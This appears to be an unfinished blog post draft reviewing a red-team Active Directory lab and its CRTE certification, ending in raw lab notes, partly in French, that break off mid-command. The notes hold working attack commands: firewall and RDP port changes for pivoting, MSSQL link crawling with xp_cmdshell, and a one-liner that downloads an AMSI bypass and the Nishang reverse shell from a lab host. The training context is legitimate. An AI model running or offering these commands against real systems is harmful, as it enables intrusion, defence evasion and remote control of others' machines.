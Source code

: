```yaml
---
layout: post
title:  "SecurityTube Advanced Red Team Lab training - How to enumerate"
date:   2020-09-22
category: Certification
excerpt_separator: <!--more-->
---
```

Hello,  
  
I would like to talk a bit about the [SecurityTube red team labs](https://www.pentesteracademy.com/redlabs), specifically the [Advanced Red Team Lab](https://www.pentesteracademy.com/redteamlab) which lead to the CRTE (Certified Red Team Expert) certification.  
  
Some great [reviews](https://www.google.com/search?q=review+red+team+lab+pentester+academy+%22CRTE%22) are already existing, so i will focus on why i chose this lab and certification. I will give you some hints about how to approach your targets. Most importantly, i would like to introduce you a tool that i developped which will help you during your journey, [Invoke-Recon](https://github.com/phackt/Invoke-Recon).  
<!--more-->

### Context
  
I was looking for a another professional and challenging cert focused on Windows AD. My prerequisites were:  
 - no jeopardy style 
 - real life scenarios which will be found in real engagements
 - a environment not too crowded. I met this situation with others platforms and i spent much of my time contacting the support to revert the VMs because of others bad exploitation or persistence, getting the machines you're working on totally unstable.  
  
Finally the Advanced Red Team Lab was the answer. Companies are more and more looking for online qualitative trainings because of the actual sanitary crisis. Think to ask to your company for a financial support.  

### What i really liked  

 - Responsive support
 - The exploitation paths are consistent and relevant
 - Nicky [todo]

### What should be / will be improved

 - possibility to revert VMs on our own during lab and cert (in dev on their side)
  
### What you will learn
  
Obviously, the difficulty level depends on your experience as a pentester, but be sure that after this cert you will be able to :  
  - Properly enumerate an AD (basic stuff like SPNs, kerberos with no preauth, ...) and which tools to use (think about [lolbas](https://lolbas-project.github.io/))
  - Find AD exploitation paths, weak ACLs
  - Spearphish users  
  - Know how to exploit Kerberos delegation and how the S4U extensions are working (for ex: kerberos constrained delegation with protocol transition)
  - Exploit domain / forest trusts (SID Filtering, SID History, ...)
  - Exploit MSSQL servers (this part was really interesting as i did not have so many opportunities to exploit MSSQL instances during engagements)
  - Many other cool stuff
  

### Hints (that you may not find in others blog posts)

 
  
### Objectives :  


-privesc de la machine puis ssf avec proxychains
-Parler des tools utilisés (ceux dans le Rep tools de la VM)
-Parler des façons unintended d avoir pown le lab
-Parler des sites notamment ceux de harmjoy, S4U2Pwnage, ...
-mettre des lignes de commandes utiles (des notes du lab, de keepnote - powershell et domain local enumeration)
-faire un article sur les commandes MSSQL (RPC OUT, OPENROWSET, EXECUTE AS)
-use maximum les lolbin (lien sur le site des lolbins)
-try to clean after you passed
-netsh pour les pivots
-le trick pour réactiver 3389 sans reboot (le mieux, desactiver winrm, utiliser smbexec en modifiant le port pour pivot 4445, et changer le port TermService sur 5985 car non filtré):
Depuis un WinRM:
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 1
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\" -Name PortNumber -Value 5985
New-NetFirewallRule -DisplayName "Remote Desktop - User Mode (TCP-In) 8888" -Direction Inbound –Protocol TCP -Profile Any –LocalPort 8888 -Action allow
New-NetFirewallRule -DisplayName "Remote Desktop - User Mode (UDP-In) 8888" -Direction Inbound –Protocol UDP -Profile Any –LocalPort 8888 -Action allow
sc.exe stop WinRM

Depuis un smbexec:
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
C:\Windows\system32>netstat -an

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING


-ls \\DC\pipe\spoolss

'UFC-SQLDEV' is not configured for RPC OUT.
spoolss DC n'est pas activé sur les DCs, mais l'est sur les serveurs

Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose -Query "EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C """"whoami""""'" -QueryTarget AC-DBBUSINESS | Select -ExpandProperty Cus
tomquery

Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose -Query "EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C """"New-Object System.Net.Sockets.TcpClient(''192.168.2.90'', ''445'')""
""'" -QueryTarget AC-DBBUSINESS | Select -ExpandProperty Customquery

Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose -Query "EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C """"iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.15
3:8080/amsi-bypass.ps1'');[Bypass.A_M_S_I]::Disable();iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.153:8080/nishang/Shells/Invoke-PowerShellTcp.ps1'');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.50.153 -Port
 8888""""'" -QueryTarget AC-DBBUSINESS | Select -ExpandProperty Customquery

EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C "iex (New-Object Net.WebClient).DownloadString(''http://192.168.2.90:8080/amsi-bypass.ps1'');[Bypass.A_M_S_I]::Disable();iex (New-Object Net.WebClient).DownloadString(''http://192.168.2.90:8080/nishang/Shells/Invoke-PowerShellTcp.ps1'');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.2.90 -Port 8888"'

Get-ChildItem -Path .\ -Filter dbbackup.sql -Recurse -ErrorAction SilentlyContinue -Force
Invoke-Sq